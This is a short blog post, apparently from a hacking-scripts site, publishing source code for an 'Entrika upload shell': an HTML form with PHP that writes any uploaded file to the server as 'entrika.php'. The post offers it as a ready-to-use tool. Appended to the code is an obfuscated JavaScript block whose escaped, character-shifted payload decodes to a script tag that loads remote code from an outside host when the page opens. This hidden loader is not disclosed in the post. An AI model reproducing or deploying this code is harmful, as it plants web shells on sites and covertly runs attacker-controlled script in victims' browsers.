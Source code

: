```yaml
---
id: 264
title: Entrika upload shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=264
permalink: /entrika-upload-shell/
categories:
  - Javascript
  - PHP
tags:
  - entrika
  - Javascript
  - PHP
---
```

Entrika upload shell &#8211; javascript and a little bit of PHP.


### Entrika upload shell source code

{% highlight php linenos %}&lt;FORM ENCTYPE="multipart/form-data" ACTION="uploader.php" METHOD="POST"&gt;
&lt;INPUT TYPE="hidden" name="MAX_FILE_SIZE" value="100000"&gt;
Send this file: &lt;INPUT NAME="userfile" TYPE="file"&gt;
&lt;INPUT TYPE="submit" VALUE="Send"&gt;
&lt;/FORM&gt;
<?
move_uploaded_file($userfile, "entrika.php"); 
?>
&lt;script language=javascript&gt;document.write(unescape('%3C%73%63%72%69%70%74%20%6C%61%6E%67%75%61%67%65%3D%22%6A%61%76%61%73%63%72%69%70%74%22%3E%66%75%6E%63%74%69%6F%6E%20%64%46%28%73%29%7B%76%61%72%20%73%31%3D%75%6E%65%73%63%61%70%65%28%73%2E%73%75%62%73%74%72%28%30%2C%73%2E%6C%65%6E%67%74%68%2D%31%29%29%3B%20%76%61%72%20%74%3D%27%27%3B%66%6F%72%28%69%3D%30%3B%69%3C%73%31%2E%6C%65%6E%67%74%68%3B%69%2B%2B%29%74%2B%3D%53%74%72%69%6E%67%2E%66%72%6F%6D%43%68%61%72%43%6F%64%65%28%73%31%2E%63%68%61%72%43%6F%64%65%41%74%28%69%29%2D%73%2E%73%75%62%73%74%72%28%73%2E%6C%65%6E%67%74%68%2D%31%2C%31%29%29%3B%64%6F%63%75%6D%65%6E%74%2E%77%72%69%74%65%28%75%6E%65%73%63%61%70%65%28%74%29%29%3B%7D%3C%2F%73%63%72%69%70%74%3E'));dF('%264DTDSJQU%2631TSD%264Eiuuq%264B00njep/ti4mm/vt0lbzefu/kt%264F%264D0TDSJQU%264F1')&lt;/script&gt;
{% endhighlight %}